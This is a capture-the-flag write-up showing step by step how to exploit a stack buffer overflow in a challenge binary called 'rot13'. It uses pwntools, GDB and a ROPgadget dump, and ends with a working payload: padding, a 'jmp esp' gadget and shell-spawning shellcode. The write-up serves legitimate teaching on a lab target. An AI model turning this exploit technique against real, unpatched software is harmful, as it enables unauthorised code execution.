



# PWN 100 - rot13 - Solution

## Tooling

When it comes to binary exploitation in CTFs, [pwntools](https://github.com/Gallopsled/pwntools) is a must-have.  It's a framework for Python that makes working with binaries and remote services incredibly easy.  In fact, it is exposes both processes and remote TCP connections as a single interface called `pwnlib.tubes`.  This means that once you have your exploit working locally, your script shouldn't require significant changes to work remotely.  I usually start every pwn script the same, usually something like this:

```python
#!/usr/bin/env python2
from pwn import *

# You might have to change this depending on the architecture of the binary
context.arch = 'i386'
#context.arch = 'amd64'

# Toggle these variables to turn debugging or remote exploitation on/off
REMOTE = False
DEBUG = False

# Update these to match your environment
FNAME = '../distFiles/rot13'
HOST = '127.0.0.1'
PORT = '1337'

def getp():
    if REMOTE:
        p = remote(HOST, PORT)
    elif DEBUG:
        p = process(['gdbserver', 'localhost:1234', FNAME])
    else:
        p = process([FNAME])
    return p

p = getp()
p.interactive()
```

Additionally, I recommend installing [gef](https://github.com/hugsy/gef) which adds enhancements to `GDB` to make it a little less painful to work with.  Also, [ROPGadget](https://github.com/JonathanSalwan/ROPgadget) often comes in handy, and I will explain why further.

## Basic analysis

It's good to start with collecting basic information about the binary.  The `checksec` command should automatically be added to your path after installing pwntools.

```
$ checksec rot13
[*] '/home/aaron/CTF-2019/pwn/100-rot13/distFiles/rot13'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

No anti-exploit mitigations are enabled.  This means if we find a buffer overflow, we can put shellcode directly on the stack and just need to find a way to jump to it.

Let's just try running the binary.

```
$ ./rot13 
Enter the string you would like me to rot13!
AAAAAA
NNNNNN
```

Ok, not a whole lot to this binary.  The first obvious thing to try is for an overflow.

```
$ ./rot13 
Enter the string you would like me to rot13!
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
Segmentation fault (core dumped)
```

## Building/Debugging the payload

Let's use the [python script above](skeleton.py) to reproduce this crash with pwntools.

Let's build a payload something like this:
```python
p = getp()

payload = ''
payload += 'A'*110

p.sendline(payload)

p.interactive()
```

And when we run it:

```
$ ./solver.py
[+] Starting local process '../distFiles/rot13': pid 11280
[*] Switching to interactive mode
Enter the string you would like me to rot13!
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
[*] Got EOF while reading in interactive
$ 
[*] Process '../distFiles/rot13' stopped with exit code -11 (SIGSEGV) (pid 11280)
[*] Got EOF while sending in interactive
```

Great, we have reproduced the crash with pwntools!

Now to debug it to find where the return pointer should go in the payload.

But first, let's tweak our payload a little bit to make it easier to identify the offset in GDB.

```python
p = getp()

payload = ''
for i in range(26):
    payload += chr(0x41+i)*4

p.sendline(payload)

p.interactive()
```

This will generate us a payload in the format of `AAAABBBBCCCC...`.

Next, we will change the line `DEBUG = False` to `DEBUG = True`.

Run the script, then in a new window, let's attach gdb to it.

Just run `gdb` and enter: `target remote localhost:1234`.

Next, let's set a breakpoint at main with: `b main`.  Then enter: `continue` to run to the breakpoint.

Once we hit the breakpoint, I like to run `layout asm` to view the disassembly and find where return happens (this is what we're most interested in).


```
│0x80485d7 <main+239>    add    esp,0x10    │
│0x80485da <main+242>    leave              │
│0x80485db <main+243>    ret                │
│0x80485dc <main+244>    nop                │
```

Ok, this looks like the end of the function.  Let's set our next breakpoint here: `b * 0x80485da`.  Then, exit asm view with `CTRL+X` and `A`.

Then run `continue`.

Let's step one more time so that `leave` gets executed.  To step, just enter `ni` (next instruction).



So `$esp` is pointing at `"aaaabbbbccccddddeeeeffffgggg"`.  Hmm, `aaaabbbbccccddddeeeeffffgggg` was never in our payload.  However, remember that this challenge is performing a rot13 on our input.  So this is likely the result.  So let's update the script to so that it subtracts 13 from our payload right before sending it, that way, once the rot13 is performed, it's back to it's original value.

But... what were to happen if we passed in `\xff` to the program?  This is likely to overflow and actually wrap back around to zero, so we need to include that in our exploit script.

```python
# subtract 13 from each byte
payload_rotted = ''
for c in payload:
    newc = ord(c)-13
    if newc < 0:
        newc = 256+newc
    payload_rotted += chr(newc)

p.sendline(payload_rotted)
```

Ok, let's try in the debugger now!



That looks better!

T is the 20th letter in the alphabet.  So our return address will be located at `4*20 == 80`.  So that means our padding should be actually 4 before that, so the padding should be a length of `76`.

Let's confirm that we are correct.  We will use this as our payload:

```python
payload = ''
payload += 'A'*76
payload += 'EDCB'
```



Great, we now know exactly where to put our return address.  The problem is, we have no idea what the stack address on the remote server is going to be, it's random.  However, since this binary isn't compiled with PIE (Position Independent Execution), we know the address of where the ELF binary itself will be loaded at.

This is where ROPgadget comes in handy!  If we can find a gadget that will allow us to jump onto the stack or jump to the register pointing to the stack, then we can execute shellcode.

```
$ ROPgadget --binary ../distFiles/rot13 
Gadgets information
============================================================
0x080487f1 : adc al, 0x41 ; ret
0x0804843a : adc al, 0x68 ; and al, 0xa0 ; add al, 8 ; call eax
0x08048486 : adc byte ptr [eax + 0x68], dl ; and al, 0xa0 ; add al, 8 ; call edx
0x08048444 : adc cl, cl ; ret
0x080485e8 : add al, 0x24 ; ret
0x080484b8 : add al, 8 ; add ecx, ecx ; ret
0x0804843e : add al, 8 ; call eax
0x0804848b : add al, 8 ; call edx
0x08048575 : add bh, al ; ret 0xa030
0x080484e2 : add bh, bh ; in al, 0x90 ; pop ebp ; ret
0x0804844f : add bl, dh ; ret
0x080484dd : add byte ptr [0x1b22], al ; jmp esp
0x08048573 : add byte ptr [eax], al ; add bh, al ; ret 0xa030
0x0804844d : add byte ptr [eax], al ; add bl, dh ; ret
0x0804844c : add byte ptr [eax], al ; add byte ptr [eax], al ; ret
0x080485c4 : add byte ptr [eax], al ; add byte ptr [ecx], bh ; ret 0xc97c
0x08048191 : add byte ptr [eax], al ; add byte ptr [edi + 0x4e], al ; push ebp ; add byte ptr [ecx], bl ; ret 0x1048
0x080484dc : add byte ptr [eax], al ; add eax, 0x1b22 ; jmp esp
0x0804834c : add byte ptr [eax], al ; add esp, 8 ; pop ebx ; ret
0x08048192 : add byte ptr [eax], al ; inc edi ; dec esi ; push ebp ; add byte ptr [ecx], bl ; ret 0x1048
0x080484e1 : add byte ptr [eax], al ; jmp esp
0x0804844e : add byte ptr [eax], al ; ret
0x080485c0 : add byte ptr [ebx + 0x2883], cl ; add byte ptr [ecx], bh ; ret 0xc97c
0x080485c6 : add byte ptr [ecx], bh ; ret 0xc97c
0x08048197 : add byte ptr [ecx], bl ; ret 0x1048
0x08048193 : add byte ptr [edi + 0x4e], al ; push ebp ; add byte ptr [ecx], bl ; ret 0x1048
0x08048796 : add ch, dl ; ror dword ptr [ecx + eax], 0 ; inc ecx ; ret
0x080484db : add dword ptr [eax], eax ; add byte ptr [0x1b22], al ; jmp esp
0x0804879a : add dword ptr [eax], eax ; inc ecx ; ret
0x080484de : add eax, 0x1b22 ; jmp esp
0x080484b5 : add eax, 0x804a024 ; add ecx, ecx ; ret
0x08048190 : add eax, dword ptr [eax] ; add byte ptr [eax], al ; inc edi ; dec esi ; push ebp ; add byte ptr [ecx], bl ; ret 0x1048
0x080484ba : add ecx, ecx ; ret
0x08048442 : add esp, 0x10 ; leave ; ret
0x08048645 : add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0804834e : add esp, 8 ; pop ebx ; ret
0x080484b6 : and al, 0xa0 ; add al, 8 ; add ecx, ecx ; ret
0x0804843c : and al, 0xa0 ; add al, 8 ; call eax
0x08048489 : and al, 0xa0 ; add al, 8 ; call edx
0x080484df : and bl, byte ptr [ebx] ; add byte ptr [eax], al ; jmp esp
0x080487ee : and byte ptr [edi + 0xe], al ; adc al, 0x41 ; ret
0x0804834a : bound eax, qword ptr [eax] ; add byte ptr [eax], al ; add esp, 8 ; pop ebx ; ret
0x080483cb : call 0x80483f9
0x08048334 : call 0x8048416
0x0804875b : call dword ptr [edx]
0x08048440 : call eax
0x0804848d : call edx
0x080485df : clc ; pop ecx ; pop ebx ; pop ebp ; lea esp, [ecx - 4] ; ret
0x080485e5 : cld ; ret
0x0804844b : daa ; add byte ptr [eax], al ; add byte ptr [eax], al ; ret
0x080487ec : dec ebp ; push cs ; and byte ptr [edi + 0xe], al ; adc al, 0x41 ; ret
0x08048195 : dec esi ; push ebp ; add byte ptr [ecx], bl ; ret 0x1048
0x080483f2 : hlt ; mov ebx, dword ptr [esp] ; ret
0x080484e4 : in al, 0x90 ; pop ebp ; ret
0x08048439 : in al, dx ; adc al, 0x68 ; and al, 0xa0 ; add al, 8 ; call eax
0x08048485 : in al, dx ; adc byte ptr [eax + 0x68], dl ; and al, 0xa0 ; add al, 8 ; call edx
0x080484f8 : in al, dx ; inc eax ; call 0x8048418
0x08048437 : in eax, 0x83 ; in al, dx ; adc al, 0x68 ; and al, 0xa0 ; add al, 8 ; call eax
0x080484f9 : inc eax ; call 0x8048417
0x0804879c : inc ecx ; ret
0x08048194 : inc edi ; dec esi ; push ebp ; add byte ptr [ecx], bl ; ret 0x1048
0x080487ef : inc edi ; push cs ; adc al, 0x41 ; ret
0x080484b3 : inc esi ; add eax, 0x804a024 ; add ecx, ecx ; ret
0x080484be : jbe 0x80484c3 ; ret
0x0804864e : jbe 0x8048653 ; ret
0x08048495 : je 0x80484c1 ; add bl, dh ; ret
0x08048644 : jecxz 0x80485d1 ; les ecx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x080484e3 : jmp esp
0x08048643 : jne 0x8048631 ; add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x08048794 : jne 0x804881b ; add ch, dl ; ror dword ptr [ecx + eax], 0 ; inc ecx ; ret
0x08048449 : lea edi, [edi] ; ret
0x08048494 : lea esi, [esi] ; ret
0x080485dd : lea esp, [ebp - 8] ; pop ecx ; pop ebx ; pop ebp ; lea esp, [ecx - 4] ; ret
0x080485e3 : lea esp, [ecx - 4] ; ret
0x08048445 : leave ; ret
0x0804834f : les ecx, ptr [eax] ; pop ebx ; ret
0x08048646 : les ecx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x08048443 : les edx, ptr [eax] ; leave ; ret
0x080484b7 : mov al, byte ptr [0xc9010804] ; ret
0x0804843d : mov al, byte ptr [0xd0ff0804] ; add esp, 0x10 ; leave ; ret
0x0804848a : mov al, byte ptr [0xd2ff0804] ; add esp, 0x10 ; leave ; ret
0x080484b4 : mov byte ptr [0x804a024], 1 ; leave ; ret
0x0804865f : mov dword ptr [0x83000019], eax ; les ecx, ptr [eax] ; pop ebx ; ret
0x080485e7 : mov eax, dword ptr [esp] ; ret
0x080483f3 : mov ebx, dword ptr [esp] ; ret
0x080485d3 : mov ecx, 0x83fffffd ; les edx, ptr [eax] ; leave ; ret
0x0804844a : mov esp, 0x27 ; add bl, dh ; ret
0x0804840f : nop ; mov ebx, dword ptr [esp] ; ret
0x0804840d : nop ; nop ; mov ebx, dword ptr [esp] ; ret
0x0804840b : nop ; nop ; nop ; mov ebx, dword ptr [esp] ; ret
0x080483f8 : nop ; nop ; nop ; nop ; nop ; ret
0x080483fa : nop ; nop ; nop ; nop ; ret
0x080483fc : nop ; nop ; nop ; ret
0x080483fe : nop ; nop ; ret
0x080484e5 : nop ; pop ebp ; ret
0x080483ff : nop ; ret
0x08048647 : or al, 0x5b ; pop esi ; pop edi ; pop ebp ; ret
0x080484b9 : or byte ptr [ecx], al ; leave ; ret
0x080484da : or dword ptr [ecx], eax ; add byte ptr [eax], al ; add eax, 0x1b22 ; jmp esp
0x080485e2 : pop ebp ; lea esp, [ecx - 4] ; ret
0x080484e6 : pop ebp ; ret
0x080485e1 : pop ebx ; pop ebp ; lea esp, [ecx - 4] ; ret
0x08048648 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x08048351 : pop ebx ; ret
0x080485e0 : pop ecx ; pop ebx ; pop ebp ; lea esp, [ecx - 4] ; ret
0x0804864a : pop edi ; pop ebp ; ret
0x08048649 : pop esi ; pop edi ; pop ebp ; ret
0x080485e4 : popal ; cld ; ret
0x0804843b : push 0x804a024 ; call eax
0x08048488 : push 0x804a024 ; call edx
0x080487f0 : push cs ; adc al, 0x41 ; ret
0x080487ed : push cs ; and byte ptr [edi + 0xe], al ; adc al, 0x41 ; ret
0x080487ea : push cs ; xor byte ptr [ebp + 0xe], cl ; and byte ptr [edi + 0xe], al ; adc al, 0x41 ; ret
0x08048487 : push eax ; push 0x804a024 ; call edx
0x080483c8 : push eax ; push esp ; push edx ; call 0x80483fc
0x08048196 : push ebp ; add byte ptr [ecx], bl ; ret 0x1048
0x080485f3 : push ebx ; call 0x8048417
0x080485f1 : push edi ; push esi ; push ebx ; call 0x8048419
0x080483ca : push edx ; call 0x80483fa
0x080485f2 : push esi ; push ebx ; call 0x8048418
0x080483f1 : push esp ; mov ebx, dword ptr [esp] ; ret
0x080483c9 : push esp ; push edx ; call 0x80483fb
0x0804833a : ret
0x08048199 : ret 0x1048
0x08048577 : ret 0xa030
0x08048542 : ret 0xc0c7
0x080485c8 : ret 0xc97c
0x0804846e : ret 0xeac1
0x08048798 : ror dword ptr [ecx + eax], 0 ; inc ecx ; ret
0x080483f4 : sbb al, 0x24 ; ret
0x080484e0 : sbb eax, dword ptr [eax] ; add bh, bh ; in al, 0x90 ; pop ebp ; ret
0x08048484 : sub esp, 0x10 ; push eax ; push 0x804a024 ; call edx
0x08048438 : sub esp, 0x14 ; push 0x804a024 ; call eax
0x080484f7 : sub esp, 0x40 ; call 0x8048419
0x08048331 : sub esp, 8 ; call 0x8048419
0x08048448 : test byte ptr [ebp + 0x27bc], 0 ; add bl, dh ; ret
0x080487eb : xor byte ptr [ebp + 0xe], cl ; and byte ptr [edi + 0xe], al ; adc al, 0x41 ; ret

Unique gadgets found: 137
```

We're in luck!  We could use the gadget: `0x080484e3 : jmp esp` to jump directly to the stack.

So to review, our payload will look like this:

```
[    PADDING==76       ] [pointer to "jmp esp"] [shellcode]
                        ^
                        |
                       esp
```

Then, once we redirect code flow to `jmp esp`, `$esp` itself will move.

```
[    PADDING==76       ] [pointer to "jmp esp"] [shellcode]
                                               ^
                                               |
                                              esp
```

Then we execute our arbitrary shellcode.  Let's try it out!

```
payload = ''
payload += 'A'*76
# p32() is used to convert an integer to a binary string of the correct endianness for your binary
# for x64 binaries, you are likely to use p64() instead.
payload += p32(0x080484e3)
# pwntools provides free shellcode for us!  This will execute a shell!
payload += asm(shellcraft.i386.linux.sh())
# And just to clean-up things, we will add some shellcode that cleanly calls exit.
# This isn't required though.
payload += asm(shellcraft.i386.linux.exit())
```

And the output:
```
$ ./solver.py
[+] Starting local process '../distFiles/rot13': pid 13125
[*] Switching to interactive mode
Enter the string you would like me to rot13!
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAjhh///sh/bin\x89�h\x814$ri1�Qj\x04Y�Q��1�j\x0bX̀1�jX̀
$ id
uid=1000(aaron) gid=1000(aaron) 
```

## Cat the flag!

Ok, it works locally, but let's test to see if it works remotely.

Let's set the global flags to...

```python
REMOTE = True
DEBUG = False
```

And run it!

```
$ ./solver.py 
[+] Opening connection to 127.0.0.1 on port 1337: Done
[*] Switching to interactive mode
Enter the string you would like me to rot13!
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAjhh///sh/bin\x89�h\x814$ri1�Qj\x04Y�Q��1�j\x0bX̀1�jX̀
$ cat /app/flag.txt
BSidesPDX{pwn_it__l1k3_its_1999_AAAAAAAAAAAAAAAAAAAAAAAAAAAA%}
```

You can get the full exploit script here: [solver.py](solver.py)
